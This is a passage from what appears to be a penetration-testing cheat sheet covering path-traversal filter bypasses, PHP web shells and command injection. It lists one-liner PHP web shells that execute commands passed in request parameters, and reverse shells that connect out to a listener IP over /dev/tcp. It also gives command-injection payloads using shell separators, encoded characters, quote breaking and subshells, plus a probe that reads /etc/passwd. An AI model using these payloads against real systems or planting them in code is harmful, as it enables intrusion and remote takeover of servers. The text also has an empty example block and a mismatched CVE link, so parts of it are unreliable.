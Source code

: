 ```sh
# directive to hopefully bypass server-side filters on it. Or even double-URL-
# encode the string.
# Also try bypassing filters with ....// instead of ../
```


#### 2.6.5.2 One-liner PHP Webshells

Simple one-liner web shells for when you can drop/modify a php file:

```php
<?php system($_GET['cmd']); ?>

<?php echo exec($_POST['cmd']); ?>

<?php echo shell_exec($_REQUEST['cmd']); ?>

<?php echo passthru($_GET['cmd']); ?>
```

Kali has more webshells here: `/usr/share/webshells/php/`, and I have some in the [tools](tools) directory

[One-liner PHP reverse shell](#54-reverse-shells):

```php
<?php $sock=fsockopen("LISTEN_IP",443);exec("/bin/bash -i <&3 >&3 2>&3"); ?>

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/LISTEN_IP/443 0>&1'"); ?>
```

[Great collection of PHP webshells and reverse shells](https://github.com/ivan-sincek/php-reverse-shell)

[Pentestmonkey PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)


### 2.6.6 Command Injection

Some websites pass user input to a shell execution environment (probably with some filtering).
If you can bypass the filter, you get code execution!

Tips:
- `whoami` runs on both Windows and Linux hosts. Good candidate for test injection.
- prefix command with separator characters: `; | & || &&`
- try url-encoded separators:
  - `%0A`: newline
  - `%3B`: semicolon
- May need to terminate quoted context before starting your command:
  ```sh
  '; whoami
  "&& whoami
  "& whoami"  # surrounding with quotes
  ```
- surrounding your command with UNIX subshells for execution:
  ```sh
  $(whoami)
  >(whoami)
  `whoami`
  ```
- To see if you're executing in CMD or Powershell (will print which one):
  ```powershell
  (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
  ```
- try seeing if you can get a help msg:  `-h`, `--help`, `/?`
- maybe redirection provides useful info `< /etc/passwd`
- perl injection when opening file:  `echo Injected|`
- if you can't see output of command, try time-based character-by-character extraction:
  ```sh
  ```

[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744